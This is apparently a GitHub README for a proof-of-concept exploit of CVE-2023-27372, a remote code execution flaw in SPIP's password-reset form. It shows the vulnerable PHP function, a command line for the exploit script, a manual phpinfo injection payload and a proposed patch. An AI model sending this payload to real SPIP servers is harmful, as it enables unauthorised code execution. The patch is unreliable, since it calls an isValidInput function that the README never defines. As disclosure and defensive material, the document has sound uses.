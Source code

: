 ## This PoC was wrote quickly, it's nothing special.

### This exploits the new CVE-2023-27372 SPIP RCE vulnerability.

### It's a deserilzation flaw which exploits the dangerous use of #ENV tag during the reset password feature (spip.php?page=spip_pass) within "/ecrire/balise/formulaire_.php" Specifically this line:

1. Syntax: python3 exploit.py -u http(s)://url.com

```php
function protege_champ($texte){

	if (is_array($texte))

		$texte = array_map('protege_champ',$texte);

	else {

		// ne pas corrompre une valeur serialize

		if (preg_match(",^[abis]:\d+[:;],", $texte) AND unserialize($texte)!=false)

			return $texte;

		$texte = entites_html($texte);

		$texte = str_replace("'","&#39;",$texte);

	}

	return $texte;

}
```

### The protege_champ function suffers from various flaws. The regular expression (RE) check used to validate the input is flawed and can be bypassed easily. The code calls the unserialize function without proper validation, allowing the execution of arbitrary code. Manual exploitation can be performed extremely easily. For example, if we wanted to execute phpinfo(); we can do:

```php
oubli=s:19:"<?phpinfo(); ?>";
```
### If the server returns the expected out, it's vulnerable. How can we patch? Fairly simply actually. Below, I have wrote a basic patch:

```php
function protege_champ($texte) {

  if (is_array($texte)) {

    $texte = array_map('protege_champ', $texte);

  } else {

    if (!isValidInput($texte)) {

      $texte = 'Malicious input detected';

    } else {

      $texte = entites_html($texte);

      $texte = str_replace("'", "&#39;", $texte);

    }

  }

  return $texte;

}
```
### The patched protege_champ function includes input validation, sanitization, and handling of malicious input. 

### Please do not use this for malicious use. Thank you. 

<a href=https://twitter.com/0SPwn>Twitter</a>
